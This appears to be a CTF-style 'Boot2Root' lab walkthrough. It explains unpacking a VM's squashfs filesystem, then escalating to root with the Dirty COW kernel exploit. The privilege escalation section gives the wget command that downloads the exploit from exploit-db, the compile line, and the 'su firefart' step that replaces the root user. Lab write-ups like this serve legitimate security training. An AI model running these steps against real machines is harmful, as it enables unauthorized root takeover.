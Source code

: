 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
```

** Unsquash

[Squash](https://s3.amazonaws.com/finecooking.s3.tauntonclud.com/app/uploads/2017/04/24170702/ING-butternut-squash-thumb1x1.jpg)

In order to better understand the file structure we can explore the ISO file by simply opening it.

There we find a .squashfs file corresponding to the compressed system.
It is possible to uncompress it in order to explore it:

```unsquashfs -f /Path/to/source/filesystem.squash.fs -d /Path/to/destination```


from there we can freely explore the system 

-----------------------------------------------------------------------------------------


** Privilege escalation

Now that we can connect as a low level user, we can attempt to use existing exploits that will grant us root access. These exploit are possible for certain versions of the kernel/OS/Architecture/distribution/Package_list running the server.

We can write download and execute external scripts in /tmp 

We used an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) in order to recomand exploits from [www.exploit-db.com](https://www.exploit-db.com/) 

One exploit named dirtycow 2 fits perfectly to the VM's specs

- How
  - The In The Wild exploit relied on writing to /proc/self/mem on one side of the race.
  - ptrace(PTRACE_POKEDATA) can write to readonly mappings.
  - The attack relies on racing the madvise(MADV_DONTNEED) system call while having the page of the executable mmapped in memory.

Let's fetch it from within the ssh access ```wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c```

Don't forget to chmod 755 and to compile with ```gcc -pthread dirty.c -o dirty -lcrypt```

Then just run it and provide a new password when prompted and ```su firefart```.

[Congrats](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats.png)

***Congratulations! we just supplanted the root user*** 





  

